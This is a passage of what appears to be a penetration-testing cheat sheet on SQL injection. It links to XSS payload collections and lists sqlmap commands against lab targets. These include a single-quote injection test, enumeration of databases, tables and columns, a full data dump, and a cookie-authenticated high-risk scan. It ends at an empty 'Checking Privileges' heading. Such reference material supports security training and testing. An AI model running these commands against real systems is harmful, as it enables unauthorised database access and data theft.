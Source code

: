 * [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


## SQLI

Sql Injection

### Sqlmap

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:
```javascript
http://192.168.1.104/Less-1/?id=5'
````

#### List databases


```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```
#### List tables


```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

#### List columns

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

#### Dump all

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

#### Set Cookie

```bash
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

#### Checking Privileges

